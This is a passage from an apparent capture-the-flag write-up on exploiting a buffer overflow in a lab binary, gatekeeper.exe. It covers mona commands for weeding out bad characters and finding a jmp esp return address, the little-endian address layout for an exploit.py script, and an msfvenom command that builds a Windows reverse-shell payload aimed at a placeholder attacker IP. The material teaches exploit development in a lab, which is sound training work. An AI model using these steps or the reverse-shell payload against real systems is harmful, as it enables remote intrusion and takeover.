 ```
!mona bytearray -b "\x00\x0a"
```

Then update the payload variable in your script and remove the new badchars as well.

Restart gatekeeper.exe in Immunity and run the modified script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

![img-description](/assets/img//Gatekeeper/BOF_Unmodified.png)
_End of Bad Chars_

#### Finding a Jump Point

Now run the following command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```
!mona jmp -r esp -cpb "\x00\x0a"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified.

![img-description](/assets/img//Gatekeeper/GateKeeper_jmp.png)
_JMP ESP_

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

#### Generate Payload

Run the following msfvenom command on Kali for making the reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 EXITFUNC=thread -b "\x00\x0a" -f c
```

